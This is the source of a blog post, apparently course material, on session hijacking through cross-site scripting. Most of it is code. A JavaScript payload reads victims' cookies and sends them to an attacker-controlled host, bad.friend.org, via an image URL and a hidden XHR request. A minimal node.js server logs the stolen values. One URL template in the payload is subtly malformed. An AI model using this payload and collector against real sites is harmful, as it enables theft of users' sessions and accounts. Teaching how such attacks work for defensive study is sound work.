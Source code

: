 ```yaml
---
layout: post
title: Session Hijacking
subtitle: Week 19 - data theft over the Internet
tags: [XSS, node, exploit]
---
```


Previously, we have demonstrated how to use ARP poison attacks to compromise unencrypted communication on local area networks (LAN). The attacks described below are effective over HTTPS traffic from external networks.

# Cookie Stealing

First, you must create an entry point on the vulnerable website with cross-site scripting. Force clients to establish a connection with your server.

## JavaScript Injection

For the code snippet below, we assume your server is accessible at the domain `bad.friend.org`.

{% highlight javascript linenos %}

let yourCookie = encodeURI(document.cookie);

// retrieve an image from the server, but send the victim's cookies as well.
let url = `http://bad.friend.org/picture.jpg?$yourCookies={yourCookie}`;
document.getElementsByTagName('image')[0].src = url;

// AJAX - Unnoticed by the typical user, low-profile payload

// string template https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals
url = `http://bad.friend.org/gimmie?yourCookies=${yourCookie}`;
let xhr = new XMLHttpRequest();
xhr.open('GET', url, true);
xhr.send();

{% endhighlight %}

## Basic node.js Server

This is a minimal node.js server that prints HTTP request parameters to standard output.

{% highlight javascript linenos %}

const http = require('http');

http.createServer((req, res) => {

  let i = req.url.indexOf('?');
  if (i !== -1)
    console.log(req.connection.remoteAddress + ' ' + req.url.substring(i));

  res.end('thanks buddy\n');
}).listen(process.env.PORT || 8125);

{% endhighlight %}
